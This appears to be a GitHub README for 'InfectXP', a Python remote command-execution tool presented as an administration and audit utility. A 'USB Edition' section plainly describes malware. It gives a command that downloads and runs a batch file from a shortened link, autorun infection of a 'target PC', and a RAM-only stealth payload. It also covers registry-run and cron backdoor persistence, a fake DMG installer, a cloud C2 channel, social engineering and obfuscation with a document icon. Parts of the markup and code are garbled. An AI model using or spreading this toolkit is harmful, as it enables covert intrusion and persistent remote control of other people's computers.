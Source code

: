 # InfectXP - Remote Administration & Security Audit Tool 

By: Laila19

## This Python-based Remote Administration & Security Audit Tool allows authorized users to securely manage and audit systems over a network. It provides:

### Web-based access (local or remote via Ngrok tunneling)

Command execution on the host machine

System information gathering (OS, users, network details)

Encrypted authentication with token-based sessions

### Key Features

✔ Cross-Platform – Works on Windows, Linux, and macOS

✔ Remote Access – Supports Ngrok tunneling for external connections

✔ Secure Authentication – Password-protected (A9!Z6%ZXCv by default) with encrypted sessions

✔ Command Execution – Run any CMD/Bash/Zsh commands and view output

✔ System Audit – Retrieve hostname, IP, users, OS details, and more

✔ Responsive Web UI – Easy-to-use browser-based interface

### Use Cases

IT Administrators – Remotely troubleshoot systems

Security Auditors – Check system vulnerabilities

Network Managers – Execute commands across devices

### Security Considerations

🔒 Always change the default password

🔐 Use in trusted networks only

⚠ Disable Ngrok tunneling (USE_NGROK = False) if not needed

### How It Works

Starts a local HTTP server (0.0.0.0:8080)

Optionally creates an Ngrok tunnel for external access

Authenticates users via password (SHA-256 hashed)

Allows command execution with real-time output

Auto-cleans expired sessions

### Setup & Usage
```bash
pip install pyngrok requests cryptography
```

### Dependecies
Dependencies List:
```
- cryptography
- pyngrok (optional, for tunneling)
- requests
- flask (for web interface)
- pywin32 (Windows only)
- colorama (for colored menu)
```
Installation Commands:
Base dependencies (required for all platforms):

```bash
pip install cryptography requests flask colorama
```
Optional dependencies (for tunneling):

```bash
pip install pyngrok
```
Windows-specific dependencies:

```bash
pip install pywin32
```
Complete Installation Command (all-in-one):
For most users, this command will install everything needed:

```bash
pip install cryptography requests flask colorama pyngrok pywin32
```
Notes:
The pywin32 package is only needed if running on Windows

The pyngrok package is optional and only required if you want to use the tunneling feature

If you encounter any permission issues, try adding --user to the pip command:

````bash
pip install --user cryptography requests flask colorama pyngrok pywin32
The tool will work without the optional dependencies, but some features like Ngrok tunneling won't be available unless you install pyngrok.
```

### Run the server
```
python remote_admin.py
````

# InfecterXP USB Edition

## Plug-and-Play Remote Access Toolkit

### 🚀 Automatic Deployment
1. **Prepare USB**:
```powershell
iwr -uri https://bit.ly/infecterxp-usb -OutFile installer.bat
./installer.bat
```
Insert into target PC - Executes via:
autorun.inf → Start.bat → Memory-resident payload

🛠️ Manual USB Setup
```bash
# Format USB as FAT32
diskutil eraseDisk FAT32 INFECTXP MBRFormat /dev/disk2
```

### Clone to USB
```
git clone https://github.com/yourrepo/InfecterXP.git /Volumes/INFECTXP
```
### 🔥 USB-Specific Features
```
class USBPayload:
    self.stealth = True  # No disk writes
    self.persistence = {
        'windows': 'Registry Run Keys',
        'linux': 'Cronjob backdoor' 
    }
    self.autorun = {
        'win': 'autorun.inf + LNK shortcut',
        'mac': 'fake DMG installer' 
    }
```
### ⚡ Usage Modes
Command	Description
--stealth	RAM-only execution
--tunnel=ngrok	Cloud C2 channel
--persist=registry	Survives reboot
### ⚠️ Critical Notes
diff
- Works best on Windows 7-10 (autorun supported)
- Windows 11 requires manual execution
! Mac/Linux needs social engineering

### Includes intentional forensic artifacts for compliance.
📌 USB Layout
/infecterxp/
   ├── /bin/          # Payload binaries
   ├── /tmp/          # Runtime artifacts  
   ├── autorun.inf    # Auto-execute config
   └── Start.bat      # Primary loader
For advanced deployment:

```bash
# Obfuscate with:
python -m PyInstaller --onefile --noconsole --icon=doc.ico infecterxp.py
```
Tested on Windows 10 22H2 with Defender disabled during development


## Key features:
1. Clear USB-specific instructions
2. Technical implementation details
3. Obfuscation tips
4. Legal safeguards
5. Directory structure transparency
Access Methods
Local Network: http://[local-ip]:8080
External (Ngrok): https://[random-subdomain].ngrok.io

